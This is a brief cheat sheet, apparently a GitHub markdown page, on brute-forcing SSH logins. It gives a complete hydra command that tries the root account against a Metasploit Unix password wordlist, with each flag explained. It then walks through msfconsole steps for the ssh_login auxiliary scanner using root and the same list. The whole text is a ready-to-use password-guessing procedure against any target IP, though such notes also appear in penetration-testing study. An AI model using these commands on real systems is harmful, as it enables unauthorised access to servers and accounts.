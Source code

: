 <h3>hydra</h3>
![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)
`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.198.x.x:(port #) -t 4 -V`

-l specifies user (root or specific user)
-P specifies password list
specify directory of the wordlist
-t for threads
-V for verbose


<h3>metasploit</h3>
run: msfconsole
search ssh (must be auxilary)
look for auxillary/scanner/ssh/ssh login
use (name or auxillary number)
options
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set rhosts (target ip add)
set rport (target port)
set threads 1
set verbose true
run
